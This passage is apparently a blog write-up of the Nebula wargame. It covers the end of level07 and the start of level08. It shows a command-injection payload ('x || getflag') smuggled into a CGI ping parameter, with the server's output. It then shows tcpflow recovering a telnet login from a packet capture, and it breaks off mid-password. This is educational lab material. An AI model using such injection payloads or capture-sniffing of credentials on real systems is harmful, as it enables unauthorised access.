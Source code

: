 Using the 'or' operator, `||` in our query, like so `wget
localhost:7007/index.cgi?Host="x || getflag"`, the call to ping
(```@output = `ping -c 3 $host 2>&1` ```), turns into something like
```@output = `ping -c 3 x || getflag 2>&1```. Because `ping -c 3 x`
fails, our 'or' condition kicks in & `getflag` is executed.

~~~
$ wget -S localhost:7007/index.cgi?Host="x || getflag"
$ cat index.cgi\?Host\=x\ \|\|\ getflag
<html><head><title>Ping results</title></head><body><pre>You have successfully executed getflag on a target account
</pre></body></html>
~~~

Sometimes I wish I knew how to write perl. Anyways, let's continue with level08!

* * *

# [level08](https://exploit-exercises.com/nebula/level08/)

> ## About
>
>World readable files strike again. Check what that user was up to, and use it to log into flag08 account.
>
>To do this level, log in as the level08 account with the password level08. Files for this level can be found in /home/flag08.

After trying (and failing to use wireshark) for the Noob CTF challenge
a while back, when I realized this level had pcaps in them, i felt
discouraged. A lot of people say Wireshark is a super awesome tool for
doing network analysis, and they are probably right. But I suck at
wireshark, so I went with tcpflow instead, and after a while
of reading man-pages on the different options, I was able to solve the
challenge.

running `tcpflow -r /home/flag08/capture.pcap -c | less` (`-r` to
specify what file to read from, `-c` to print contents of packets to
stdout) & scrolling down a couple of steps brings us the following
view (IP-addresses replaced with more human-readable names).

~~~
..wwwbugs login:
localhost.39247-remote.12121: l
remote.12121-localhost.39247: .l
localhost.39247-remote.12121: e
remote.12121-localhost.39247: .e
localhost.39247-remote.12121: v
remote.12121-localhost.39247: .v
localhost.39247-remote.12121: e
remote.12121-localhost.39247: .e
localhost.39247-remote.12121: l
remote.12121-localhost.39247: .l
localhost.39247-remote.12121: 8
remote.12121-localhost.39247: .8
localhost.39247-remote.12121: 
remote.12121-localhost.39247: .
remote.12121-localhost.39247: .
Password:
localhost.39247-remote.12121: b 
localhost.39247-remote.12121: a
localhost.39247-remote.12121: c
localhost.39247-remote.12121: k
localhost.39247-remote.12121: d
```